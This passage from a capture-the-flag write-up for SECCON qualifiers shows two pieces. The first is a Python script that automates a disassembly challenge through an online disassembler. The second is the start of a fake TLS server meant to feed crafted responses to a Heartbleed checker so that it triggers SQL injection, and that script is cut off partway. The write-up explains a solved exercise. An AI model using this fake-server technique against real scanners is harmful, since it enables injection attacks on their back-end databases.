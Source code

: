 ```python
        'hex_val':hex_val,
        'endian':'default'}
    r = requests.post(url, data=payload, cookies=cookies)

    url = 'http://www2.onlinedisassembler.com/odaweb/_refresh'
    payload = {'id': '19884'}
    r = requests.post(url, data=payload, cookies=cookies)
    result = r.text
    import re
    pat = re.compile("<insn>(.*)</insn>")
    return pat.findall(result)[0]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('disassemble.quals.seccon.jp', 23168))
f = s.makefile('rw', bufsize=0)

i = 0
while(True):
    print 'round: %d' % i
    ret = readuntil(f, ': ')
    assem = readuntil(f, '\n').replace(' ','').replace('\n','')
    readuntil(f, '? ')

    print assem
    result = dis(assem)
    print result
    f.write(result + '\n')
    i += 1
    if (i == 100): break

print f.read(1024)
```

### Web 300 Heartbleed

The site lets you put into the site and the port you want to detect whether it
has the heartbleed vulnerability. And then it will insert the result into the
database(sqlite). After that it will select out the result just inserted into
which cause an SQL injection. So we should just create a fake server and then
try to communicate with the script it use to detect 'Heartbleed'. Here is the
server code:

```python
import struct
import socket
import datetime

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.bind(('', 44444))
sock.listen(1024)

try:
    while True:
        conn, addr = sock.accept()
        try:
            conn.settimeout(1)
            data = conn.recv(128)

            package = ''
            package += '\x16\x01\x01\x00\x01'
            conn.send(package + '\x0e')

            data = conn.recv(256) # heartbeat

```